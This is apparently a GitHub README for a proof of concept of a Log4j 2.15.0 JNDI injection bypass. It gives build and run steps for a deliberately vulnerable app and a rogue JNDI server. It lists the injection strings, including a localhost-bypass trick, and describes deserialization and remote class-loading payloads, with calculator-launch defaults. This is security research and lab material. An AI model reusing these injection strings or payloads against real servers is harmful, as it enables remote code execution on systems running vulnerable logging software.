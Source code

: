 ## POC
log4j2.xml and poc.java provides an example vulnerable application built with log4j 2.15.0.  
rogue-jndi is a modified version of Veracode's rogue-jndi published [here](https://github.com/veracode-research/rogue-jndi)

## Build the poc and rogue-jdni servers
1. Run get-deps.sh to obtain the necessary jar dependencies. You will also need to install maven to build rogue-jndi
2. Build the poc using ./build.sh
3. Build rogue-jndi by running ./build.sh within the rogue-jndi directory

## Running the poc
1. Run rogue-jndi by running the run.sh script in the rogue-jndi directory.
2. Run the ./run.sh script in the outer directory for the two POCs like so
```
./run.sh ${jndi://localhost:1389/o=deserialization}
./run.sh ${jndi://localhost:1389/o=toctou}
```

For systems that are susceptible to the localhost bypass, you may run
```
./run.sh ${jndi://localhost#localhost.friendspacebookplusallaccessredpremium.com:1389/o=deserialization}
./run.sh ${jndi://localhost#localhost.friendspacebookplusallaccessredpremium.com:1389/o=toctou}
```
or
```
./run.sh ${jndi://localhost#macos.friendspacebookplusallaccessredpremium.com:1389/o=deserialization}
./run.sh ${jndi://localhost#macos.friendspacebookplusallaccessredpremium.com:1389/o=toctou}
```

These domains resolve to 127.127.127.127 and 127.0.0.1 respectively.

## Payloads

### Deserialization
The deserialization payload is built using ysoserial and relies on the creative-commons-3.1 gadget chain.
The default provided payload runs gnome-calculator. See the included generate-deser-payload.sh  for alternative
payloads.

### HTTP Class Loader
The command ran using the URLClassLoader is specified in the rogue-jndi/run.sh scrpit.
